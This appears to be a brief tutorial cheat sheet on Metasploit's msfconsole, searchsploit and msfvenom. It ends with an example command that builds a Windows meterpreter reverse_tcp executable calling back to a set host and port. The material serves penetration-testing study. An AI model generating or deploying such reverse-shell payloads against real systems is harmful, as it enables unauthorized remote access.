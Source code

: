 # Basic usage
- Run the command `msfconsole` to open Metasploit.
- Use `search <vulnerability>` to find different exploits.
- Choose the one you want to use with `use <number>`.
- Use `show options` to select the payload.
- Choose the payload with `set payload <number>`.
- Set the necessary parameters seen with `show options` using `set <parameter> <value>`. Only the ones marked with **yes*** are mandatory.
- To execute, use `run`.
# searchsploit
**SearchSploit** is used to search and locate known exploits and vulnerabilities in a wide variety of software and systems. It utilizes the Exploit Database, which contains an extensive collection of exploits, shellcodes, and security-related references.
```bash
searchsploit <whatever>
```

Once we find the exploit that we need we can know the path where it's stored with the command:
```bash
searchsploit -p<exploit_number>
```
# msfvenom
**msfvenom** is primarily used for generating payloads, which are pieces of code that can be delivered to a target system to exploit vulnerabilities or gain unauthorized access.

```bash
#target_info = java, php, python, windows, ubuntu, etc
msfvenom -l payloads | grep <target_info>
msfvenom -p PAYLOAD [OPTIONS] -f FORMAT [OTHER_OPTIONS]
```
- Example:
```bash
#-f = file extension
#-o = file name
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
#if you want to know the payload options use:
msfvenom -p <payload> --list-options
```